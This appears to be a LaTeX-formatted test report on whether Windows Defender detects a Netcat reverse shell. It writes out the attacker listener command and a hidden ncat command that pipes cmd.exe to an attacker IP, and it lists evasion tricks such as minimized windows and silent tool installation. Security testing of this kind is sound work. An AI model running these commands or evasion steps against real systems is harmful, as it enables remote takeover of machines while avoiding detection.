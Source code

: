 \documentclass[11pt]{article}
\begin{document}
	\begin{itemize}
		\item \textbf{Objective of the specific test:} To establish a reverse shell from the victim machine to the attacker machine using Netcat and assess if Windows Defender detects the connection attempt or the tool used.
		\item \textbf{Tools and Scripts Used:}
		\begin{itemize}
			\item `ncat.exe` (part of Nmap, installed via WinGet as per `cmd_commands.txt` [cite: 252]).
			\item `cmd_commands.txt`: Used to initiate the Ncat reverse shell connection[cite: 253].
			\item Attacker machine: Netcat listener (`nc -lvnp 12345`).
		\end{itemize}
		\item \textbf{Step-by-Step Execution Procedure:}
		\begin{enumerate}
			\item On the attacker machine, a Netcat listener was started: `nc -lvnp 12345`.
			\item On the victim machine, `cmd_commands.txt` was executed.
			\item The batch script attempted to install Nmap (if not present) and then initiated the reverse shell: `start /min cmd /c "ncat 172.20.10.15 12345 -e cmd.exe"`[cite: 252, 253]. (Note: IP `172.20.10.15` needs to be the attacker's IP).
			\item If successful, a command prompt session from the victim machine appeared on the attacker's Netcat listener.
			\item Commands were executed remotely (e.g., `dir`, `whoami`).
		\end{enumerate}
		\item \textbf{Specific Evasion Methods Employed:}
		\begin{itemize}
			\item \textbf{Reverse Shell:} To bypass potential inbound firewall restrictions on the victim.
			\item \textbf{Using a legitimate tool (Ncat):} Nmap/Ncat can be used for legitimate network administration, potentially reducing suspicion.
			\item \textbf{Hidden Window:} `start /min cmd /c` attempts to run the command in a minimized/hidden window[cite: 253].
			\item \textbf{Automated Installation of Nmap:} The `cmd_commands.txt` script attempts to install Nmap silently using WinGet[cite: 252], which might evade scrutiny if WinGet itself is trusted.
		\end{itemize}
	\end{itemize}
	
\end{document}
